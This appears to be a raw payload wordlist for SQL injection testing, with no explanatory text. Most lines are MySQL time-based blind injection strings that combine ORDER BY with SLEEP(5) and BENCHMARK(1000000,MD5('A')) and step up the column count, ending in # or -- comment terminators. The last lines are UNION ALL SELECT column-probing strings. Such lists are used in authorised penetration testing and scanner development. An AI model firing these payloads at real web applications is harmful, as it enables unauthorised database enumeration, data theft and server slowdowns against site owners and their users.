 ```
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 ORDER BY SLEEP(5)-- 
 ORDER BY 1,SLEEP(5)-- 
 ORDER BY 1,SLEEP(5),3-- 
 ORDER BY 1,SLEEP(5),3,4-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
```